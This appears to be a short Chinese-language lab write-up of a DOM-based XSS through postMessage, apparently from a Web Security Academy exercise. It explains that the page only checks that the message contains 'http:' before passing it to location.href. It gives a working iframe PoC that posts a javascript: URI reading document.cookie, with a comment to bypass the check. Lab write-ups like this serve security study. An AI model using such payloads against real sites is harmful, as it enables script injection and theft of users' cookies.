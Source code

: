

![](images/3BADA327747846B8AFA9722D957622CAclipboard.png)

url.indexOf('http:')>-1  表示提交的参数必须含有http:

将接收到的url，使用location.href跳转。location.href可以使用javascript协议执行js代码



poc:

```javascript
<iframe src="//ac6e1f531ec480af801c615400ba00e6.web-security-academy.net/" 
//获取http:前面的内容，所以这里使用注释符
onload="this.contentWindow.postMessage('javascript:alert(document.cookie)//http:','*')">
```

